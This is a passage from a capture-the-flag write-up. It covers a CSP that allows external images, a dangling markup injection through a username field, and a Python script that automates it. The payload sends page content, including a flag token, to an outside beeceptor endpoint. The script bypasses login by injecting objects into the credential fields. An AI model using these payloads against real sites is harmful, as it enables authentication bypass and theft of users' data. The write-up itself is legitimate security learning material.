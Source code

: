 I decided to analyse the `Content-Security-Policy` to understand further and voila, a realisation!

```javascript
app.use((req, res, next) => {
    res.setHeader(
        'Content-Security-Policy',
        "default-src 'self'; img-src data: *; object-src 'none'; base-uri 'none'; frame-ancestors 'none'"
    )
    res.setHeader(
        'Cross-Origin-Opener-Policy',
        'same-origin'
    )
    next()
})
```

Hmmm, turns out the CSP does indeed allow the loading of external image sources. I started looking around for other forms of **non-xss** client based attacks and eventually I came across [Dangling Markup Injection](https://portswigger.net/web-security/cross-site-scripting/dangling-markup), which seemed rather promising.

I tried to generate a token with the `username` payload, using [beeceptor](https://beeceptor.com/) as a way to inspect my request. If the image does load a request would be triggered to my temporary `beeceptor` endpoint.

```html
"/><img src="https://test-dangling-markup.free.beeceptor.com?
```

And success! I can see the a request being triggered and the query parameter in my `beeceptor` endpoint contains the exfiltrated response to the `GET /token?token=<generated_token>` endpoint as follows:

```json
{
  " asks for your token, you can give them this token: TISC{a:q:a:c:n:s:w:g:o:4}.</div><form action": ""
}
```

Let's make a script and automate this part!

```python
import requests
import json

url = "http://localhost"
login_endpoint = f"{url}/login"
token_endpoint = f"{url}/token"
verify_endpoint = f"{url}/verify"

login_payload = {"email": {"email":1}, "password": {"password":1}}

r_login = requests.post(login_endpoint, json=login_payload)

cookie = ""

for c in r_login.cookies:
    if c.name == "connect.sid":
        cookie = f"{c.name}={c.value}"

headers = {"Cookie": cookie}
token_payload = {"username":"\"/><img src=\"https://test-dangling-markup.free.beeceptor.com?"}
r_token = requests.post(token_endpoint, json=token_payload, headers=headers)
print(r_token.json().get("token"))
```
